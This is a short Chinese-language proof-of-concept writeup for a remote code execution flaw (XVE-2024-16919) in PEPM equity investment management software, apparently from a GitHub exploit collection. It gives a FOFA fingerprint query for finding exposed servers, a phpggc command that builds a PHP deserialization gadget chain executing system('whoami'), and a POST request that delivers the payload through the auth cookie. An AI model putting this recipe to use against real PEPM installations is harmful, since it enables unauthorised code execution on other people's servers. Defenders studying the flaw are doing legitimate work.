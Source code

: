 # PEPM系统Cookie存在远程代码执行漏洞(XVE-2024-16919)

PEPM是由苏州梓川信息科技有限公司开发的中国领先股权投资管理软件。PEPM致力于将成熟互联网技术与企业业务应用结合，为用户提供专业、易用且低成本的软件服务。 PEPM系统存在远程代码执行漏洞，Cookie的auth字段存在反序列化漏洞，攻击者可构造反序列化链生成恶意数据，执行任意PHP代码。

## fofa

```yaml
"PEPM 中国领先的股权投资管理软件"
```

## poc

使用 phpggc 生成恶意序列化数据 ，工具地址 ：https://github.com/ambionics/phpggc

```bash
./phpggc -u PHPSecLib/RCE1 "system('whoami');"
```

```java
POST / HTTP/1.1
Host:
Cookie: auth=序列化数据
```

![image-20240803122910588](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408031229659.png)